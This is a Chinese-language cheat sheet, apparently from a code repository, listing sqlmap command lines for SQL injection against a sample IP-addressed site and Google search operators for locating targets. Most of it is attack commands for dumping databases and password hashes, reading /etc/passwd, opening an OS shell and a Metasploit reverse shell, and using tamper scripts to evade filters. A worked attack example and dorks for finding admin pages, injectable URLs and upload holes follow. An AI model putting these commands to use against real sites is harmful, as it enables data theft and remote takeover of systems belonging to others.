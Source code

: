 ## SQLMap的用法+谷歌黑客语法

### SQLMap的用法记录

**基本步骤**

```
sqlmap.py -u "http://192.168.109.139/news?id=1" --current-user #获取当前用户名称
sqlmap.py -u "http://192.168.109.139/news?id=1" --current-db #获取当前数据库名称
sqlmap.py -u "http://192.168.109.139/news?id=1" --tables -D "db_name" #列表名
sqlmap.py -u "http://192.168.109.139/news?id=1" --columns -T "tablename" users-D "db_name" -v 0 #列字段
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0 #获取字段内容
******************信息获取****************** 
sqlmap.py -u "http://192.168.109.139/news?id=1" --smart --level 3 --users # smart 智能 level 执行测试等级
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbms "Mysql" --users # dbms 指定数据库类型
sqlmap.py -u "http://192.168.109.139/news?id=1" --users #列数据库用户
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs#列数据库
sqlmap.py -u "http://192.168.109.139/news?id=1" --passwords #数据库用户密码
sqlmap.py -u "http://192.168.109.139/news?id=1" --passwords-U root -v 0 #列出指定用户数据库密码
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20 #列出指定字段，列出 20 条
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump-all -v 0 #列出所有数据库所有表
sqlmap.py -u "http://192.168.109.139/news?id=1" --privileges #查看权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --privileges -U root #查看指定用户权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --is-dba -v 1 #是否是数据库管理员
sqlmap.py -u "http://192.168.109.139/news?id=1" --roles #枚举数据库用户角色
sqlmap.py -u "http://192.168.109.139/news?id=1" --udf-inject #导入用户自定义函数（获取系统权限！）
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump-all --exclude-sysdbs -v 0 #列出当前库所有表
sqlmap.py -u "http://192.168.109.139/news?id=1" --union-cols #union 查询表记录
sqlmap.py -u "http://192.168.109.139/news?id=1" --cookie "COOKIE_VALUE" #cookie 注入
sqlmap.py -u "http://192.168.109.139/news?id=1" -b #获取 banner 信息
sqlmap.py -u "http://192.168.109.139/news?id=1" --data "id=3" #post 注入
sqlmap.py -u "http://192.168.109.139/news?id=1" -v 1 -f #指纹判别数据库类型
sqlmap.py -u "http://192.168.109.139/news?id=1" --proxy"http://127.0.0.1:8118" #代理注入
sqlmap.py -u "http://192.168.109.139/news?id=1"--string"STRING_ON_TRUE_PAGE" #指定关键词
sqlmap.py -u "http://192.168.109.139/news?id=1" --sql-shell #执行指定 sql 命令
sqlmap.py -u "http://192.168.109.139/news?id=1" --file /etc/passwd  #必须为dbs权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --file-write 本地文件路径 file-dest 目标路径  #必须为dbs权限(可将本地的某个文件写入到目标路径下)
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-cmd=whoami #执行系统命令
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-shell #系统交互 shell
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-pwn #反弹 shell
sqlmap.py -u "http://192.168.109.139/news?id=1" --reg-read #读取 win 系统注册表
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs-o "sqlmap.log" #保存进度
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs -o "sqlmap.log" --resume #恢复已保存进度
sqlmap.py -u "http://192.168.109.139/news?id=1" --msf-path=/opt/metasploit3/msf2 --os-pwn 反弹 shell 需 metasploit 路径
sqlmap.py -u "http://192.168.109.139/news?id=1" --tamper "base64encode.py" 加载脚本(可利用绕过注入限制)
sqlmap.py -u "http://192.168.109.139/news?id=1" --batch --tamper "base64encode.py" 加载脚本(可利用绕过注入限制)
sqlmap -g "google 语法" --dump-all --batch #google 搜索注入点自动 跑出所有字段
sqlmap.py -u "http://192.168.109.139/news?id=1" --forms  #post提交方式注入
sqlmap.py -r 本地数据包路径 #post提交方式注入
```

### 攻击实例

```
sqlmap.py -u "http://192.168.109.139/news?id=1&Submit=Submit" --cookie="PHPSESSID=41aa833e6d0d28f489ff1ab5a7531406" --string="Surname" --dbms=mysql --users --password
```

谷歌黑客语法

- site：可以限制你搜索范围的域名.
- inurl：用于搜索网页上包含的URL，这个语法对寻找网页上的搜索，帮助之类的很有用.
- intext: 只搜索网页<body>部分中包含的文字(也就是忽略了标题、URL等的文字)
- intitle: 查包含关键词的页面，一般用于社工别人的webshell密码
- filetype：搜索文件的后缀或者扩展名
- intitle：限制搜索的网页标题.
- link: 可以得到一个所有包含了某个指定URL的页面列表.

- 查找后台地址：site:域名 inurl:login|admin|manage|member|admin_login|login_admin|system|login|user|main|cms
- 查找文本内容：site:域名 intext:管理|后台|登陆|用户名|密码|验证码|系统|帐号|admin|login|sys|managetem|password|username
- 查找可注入点：site:域名 inurl:aspx|jsp|php|asp
- 查找上传漏洞：site:域名 inurl:file|load|editor|Files
- 找eweb编辑器：site:域名 inurl:ewebeditor|editor|uploadfile|eweb|edit
- 存在的数据库：site:域名 filetype:mdb|asp|#
- 查看脚本类型：site:域名 filetype:asp/aspx/php/jsp
- 迂回策略入侵：inurl:cms/data/templates/images/index/